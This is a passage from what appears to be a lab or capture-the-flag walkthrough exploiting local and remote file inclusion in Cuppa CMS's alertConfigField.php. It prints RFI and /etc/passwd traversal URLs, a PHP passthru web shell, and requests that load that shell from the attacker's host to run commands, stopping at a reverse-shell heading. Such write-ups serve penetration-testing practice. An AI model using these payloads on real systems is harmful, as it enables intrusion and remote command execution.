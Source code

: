 I transfer a copy of this exploit to my current working directory, and see that it can be exploited for local and remote file inclusion.

```console
root@kali:~$ searchsploit -m php/webapps/25971.txt
root@kali:~$ cat 25971.txt
...
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
...
```

## Exploitation
### Remote File Inclusion

I start the apache service and redirect a simple web shell to web root.

```console
root@kali:~$ systemctl start apache2.service 
root@kali:~$ echo "<?php passthru(\$_GET['cmd']); ?>" > /var/www/html/back.txt
```

Then I include the webshell that's hosted on my local server and we execute the command **id**, as  shown below:

`http://192.168.179.129/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.179.1/back.txt&cmd=id`

![](/assets/images/bravery/screenshot-6.png)

We check if the tool **ncat** exists, in order to obtain an encrypted shell from the victim machine.

`http://192.168.179.129/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.179.1/back.txt&cmd=which%20ncat`

![](/assets/images/bravery/screenshot-7.png)

**Getting a reverse shell**
